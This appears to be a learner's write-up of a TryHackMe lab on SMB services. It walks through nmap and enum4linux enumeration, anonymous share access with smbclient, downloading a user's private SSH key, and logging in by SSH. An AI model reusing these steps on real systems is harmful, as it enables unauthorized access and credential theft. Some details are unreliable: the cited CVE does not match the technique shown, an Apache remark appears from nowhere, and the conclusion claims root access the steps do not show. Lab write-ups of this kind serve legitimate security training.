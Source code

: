 # Documentation: TryHackMe Cyber Defense #01

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenges
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment.

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access a server and capture the flag by enumerating an SMB and exploiting its vulnerabilities to exfiltrate sensitive data and gain access to the server and capture the flag

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**:
    - Port Scanning:
    	- `nmap -Pn 10.10.242.131`
    - SMB Enumeration: 
		- `enum4linux -U 10.10.242.131`
		- `enum4linux -a 10.10.242.131`
  - **Findings**:
	- Users are: administrator, guest, krbtgt, domain admins, root, bin, none
	- No password 
	- Workgroup name is WORKGROUP
	- Name of machine is polosmb
	- OS running on version 6.1
	- ***Ports that are open***:
		- 22/tcp  open  ssh
		- 139/tcp open  netbios-ssn
		- 445/tcp open  microsoft-ds
	- Users profiles is shared in the SMB with the sharename 'profiles'

### 3.3 Exploitation
- **Vulnerability Identification**: [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
  - **Techniques Used**:  exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- **Exploitation Process**:
	- Enter to access SMB `smbclient //10.10.242.131/ Anonymous -U profiles`
	- Press enter on the password because there is no password set
	- Enter `ls -a` to show files and hidden files
![Screenshot 2024-05-20 183213](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ef9f7522-8502-429f-bc32-cad423820baa)

	- Type `get Working From Home Information` to download to your download folder
![Screenshot 2024-05-20 182845](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/1d7c5b9c-018a-4ab7-959a-64dbbc710cea)

	- Enter `cat Working From Home Information.txt` in the terminal to view the text file
![Screenshot 2024-05-20 184207](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/417d6c7f-e9c6-491a-80bc-dbd43424dc9b)

	- Type `open .ssh` to access directory
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/a871111d-92af-4503-8973-c949870cfb41)

	- To download type `get id_rsa`
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ba82f020-cde0-452d-948c-5f08794d993d)

	- Type `chmod 600` id_rsa to change the permissions
![chmod](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/c0217817-5203-46c4-9743-66995a57566a)

	- Type `ssh cactus@10.10.242.131 -i id_rsa` to access the server
![Screenshot 2024-05-20 190916](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/b61b84c7-f850-4c50-b0bd-147bcbfecbfd)

	- Type `ls`  to show files then `cat smb.txt` to view text file
![Screenshot 2024-05-20 191157](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/145c3e10-0603-4e3e-a297-f55fee5498ee)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

